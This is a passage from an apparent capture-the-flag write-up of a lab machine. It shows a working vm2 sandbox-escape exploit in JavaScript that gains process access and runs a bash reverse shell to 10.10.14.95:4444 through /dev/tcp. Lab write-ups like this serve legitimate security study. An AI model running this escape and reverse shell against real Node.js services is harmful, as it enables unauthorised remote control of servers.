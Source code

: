 ![Code Execution](/assets/images/2024/01/Codify/CodeExecution.png "Code Execution")

Now that I knew I could execute commands on the server, I changed it to open a reverse shell.

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash  -i >& /dev/tcp/10.10.14.95/4444 0>&1"');
}
`

```